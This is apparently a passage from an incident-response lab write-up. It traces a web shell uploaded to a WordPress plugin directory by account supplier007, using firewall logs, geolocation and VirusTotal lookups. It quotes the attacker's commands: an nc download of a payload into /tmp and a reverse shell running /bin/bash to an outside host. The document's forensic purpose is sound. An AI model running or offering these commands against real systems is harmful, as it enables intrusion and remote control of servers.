 The 3 in the URL path we have seen earlier, `/wp-content/uploads/sp-client-document-manager/3`, has been confirmed by the sys admin that is the supplier007, the request came from him (likely a compromised account) and he uploaded the file `project-plan.php`. 

Also, the sys admin shares with us that the tmp folder is empty, so the previous goal cannot be achieved. 

- [x]  Do we know who uploaded it? → The administrator replied to your request and identified supplier007 as user number 3
- [x]  What is the content of `/tmp/project-plan`? → tmp folder empty 😞

The when task can be achieved analyzing the firewall log using a not-so-trivial query. We’ll take a look at **inbound connections** logged by the cloud provider firewall.

The reasoning behind it is the following:

> Reviewing the complete list of connections is time-consuming. We should get a manageable number of network connections if we restrict our search to:
- A few minutes (for example 10) before and after the time of the first suspicious web access event containing the Base64 encoded whoami command;
- Web requests destined to TCP ports 80 and 443; and
- Look for traffic destined to one of the nodes hosting the web portal pods.
> 

The output of the search shows a total of 35 connections using TCP/443, after a geolocalization query, this is the following output:

> 185.220.100[.]250 located in DE (country code for Germany), with 33 connections
134.209.24[.]42 located in GB (country code for Great Britain), with 1 connection
139.162.145[.]250 located in DE, with 1 connection
> 

A VirusTotal check on the IP addresses is performed, revealing that 185.220.100[.]250 has been tagged as a TOR node (so the information on the timeline could be updated). TOR hides the true identity of the attacker, so we will not be able to know who the attacker is.

Ok now let’s investigate the **outbound connections**. The time frame of reference is 10 minutes before and after the first suspicious web access events (whoami command).

The output shows a total of 109 connections.

> The following is a summary. The events source IP addresses, 10.154.0[.]2, 10.154.0[.]3 or 10.154.0[.]4, are the three Kubernetes nodes that host the web server pods. 
From the output, we see the following outbound connections which correlate to the Base64 decoded commands sent to the Web shell:
- "10.154.0[.]4","34.125.53[.]119","80","1": One connection that correlate with the command `sleep 10 | nc -v 34.125.53.119 80 > /tmp/project-plan && chmod 755 /tmp/project-plan`.
- "10.154.0.4","34.152.29.228","80","3": Three connections which correlates with the command `/tmp/project-plan -e '/bin/bash' 34.152.29.228 80 --reconn`. We see three connections, despite seeing one web access event. This could be due to the --reconn parameter, which might have instructed the program project-plan to reconnect whenever its connection to 34.152.29.228 is lost. It could also be other activities performed by the attacker on the compromised system.
> 

After that, we can tick another of our task we were set to do. We checked outbound connection and we found 4 successful from suspicious servers.
